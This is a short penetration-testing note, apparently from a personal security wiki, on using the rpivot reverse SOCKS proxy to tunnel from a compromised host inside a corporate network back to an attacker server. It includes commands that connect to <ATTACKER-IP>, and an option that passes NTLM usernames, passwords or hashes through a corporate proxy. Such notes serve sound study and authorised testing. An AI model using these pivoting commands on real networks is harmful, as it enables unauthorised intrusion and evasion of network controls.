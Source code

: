 >! SOCKS4 reverse proxies only
>! Python 2.6-2.7 compatibility only

[Rpivot](https://github.com/klsecservices/rpivot) is a reverse #SOCKS proxy tool written in Python for SOCKS tunneling. It binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. It works like ssh dynamic port forwarding but in the opposite direction and has no dependencies beyond the standard library.
# Example Usage
If a remoter system has a webserver:
1. Start SOCKS proxy server on Attacking machine:
```shell-session
$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
2. [[File Transfer|Transfer]] `rpivot` to target and run proxy client:
```shell-session
$ python2.7 client.py --server-ip <ATTACKER-IP> --server-port 9999
```
3. Configure proxychains for `localhost 9050`
4. We should be able to access the remote webserver:
```shell-session
$ proxychains firefox-esr <REMOTER-WEBSERVER-IP>:80
```

If we cannot directly pivot to an external server (attack host) on the cloud due to [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username:password as follows:
```shell-session
$ python2.7 client.py --server-ip <REMOTER-WEBSERVER-IP> --server-port 8080 --ntlm-proxy-ip <PROXY-IP> --ntlm-proxy-port 8081 --domain <WINDOWS-DOMAIN> --username <USER> [--password <PASSWORD>/--hashes <NT:LM HASH>]
```